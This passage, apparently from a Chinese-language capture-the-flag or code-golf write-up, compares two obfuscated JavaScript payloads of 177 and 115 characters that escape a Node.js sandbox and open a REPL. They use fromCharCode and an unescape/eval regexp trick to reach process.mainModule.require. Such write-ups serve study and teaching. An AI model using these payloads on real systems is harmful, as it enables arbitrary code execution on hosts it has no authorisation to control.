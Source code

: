 最短的是 `valueOf`，所以可以再縮成這樣：

``` js
with(String)with(f=fromCharCode,this)with(valueOf)with(constructor(f(r=114,e=101,116,117,r,110,32,p=112,r,111,99,e,s=115,s))())with(mainModule)with(require(f(r,e,p,108)))start()
```

總共 177 個字元。

如果結合 Discord 中 fredd 的解法，有用到 regexp 的我找到最短的是這樣，115 個字：

``` js
eval(unescape(1+/1,this%2evalueOf%2econstructor(%22process%2emainModule%2erequire(%27repl%27)%2estart()%22)()%2f/))
```